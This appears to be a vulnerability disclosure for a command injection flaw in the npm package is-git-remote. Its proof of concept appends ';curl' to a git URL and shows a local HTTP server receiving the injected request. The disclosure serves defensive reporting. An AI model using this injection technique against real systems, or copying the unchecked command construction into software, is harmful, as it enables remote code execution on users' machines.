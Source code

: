 The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:
```js
// poc.js
const isGitRemote = require('is-git-remote');
isGitRemote.default('https://github.com/Mik317/PyScan.git;curl "http://localhost/RCE"');
```
2. Run a `py` server in order to verify the `cUrl` command: `python3 -m http.server 80`
3. Execute the following commands in another terminal:
```bash
npm i is-git-remote # Install affected module
git init # Avoid problems with the file validation
node poc.js #  Run the PoC
```
4. The `cUrl` command will be executed ... and the `py` server will receive a request to the `http://localhost/RCE` address
## References:
 - [GitHub Issue](https://github.com/aichbauer/node-is-git-remote/issues/1)
 - [GitHub Permalink #1](https://github.com/aichbauer/node-is-git-remote/blob/master/lib/index.js#L15)